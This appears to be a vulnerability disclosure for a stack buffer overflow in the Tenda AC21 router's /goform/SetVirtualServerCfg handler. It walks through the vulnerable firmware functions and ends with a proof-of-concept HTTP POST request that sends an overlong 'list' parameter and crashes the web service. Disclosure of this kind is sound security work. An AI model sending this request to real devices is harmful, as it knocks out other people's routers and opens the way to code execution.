


**Affected Product**: Tenda AC21 Router

**Affected Firmware Versions**:  V16.03.08.16

**Vulnerability Type**: Buffer Overflow Vulnerability


------
### **Vulnerability Description**

A stack-based buffer overflow vulnerability exists in the latest firmware of the Tenda AC21 (V16.03.08.16). The issue stems from insufficient validation of parameters in the /goform/SetVirtualServerCfg handler within /bin/httpd. By manipulating the list parameter in an HTTP POST request, a remote attacker can trigger a stack-based buffer overflow, leading to denial of service and potentially enabling remote arbitrary code execution.


---
### **Vulnerability Details**
In the httpd binary file, the function corresponding to /goform/SetVirtualServerCfg is the formSetVirtualSer function.


In the formSetVirtualSer function, the webGetVar function retrieves the value of the list parameter from a1 and assigns it to Var, and then calls the save_virtualser_data function.


In the function, since the character corresponding to 126 is "~", but the list parameter normally does not contain this character, the for loop will not be entered.


Subsequently, because neither "%[^,]" nor "%s" of sscanf specifies a maximum field width, it writes bytes beyond the buffer when encountering input that is longer than v12/v13/v14/v15, resulting in a buffer overflow vulnerability.


---
### **PoC**
```
POST /goform/SetVirtualServerCfg HTTP/1.1
Host: 192.168.25
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 1164
Origin: http://192.168.254.139
Connection: keep-alive
Priority: u=0
Pragma: no-cache
Cache-Control: no-cache

list=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

After the request was sent, a segmentation fault occurred in the service:



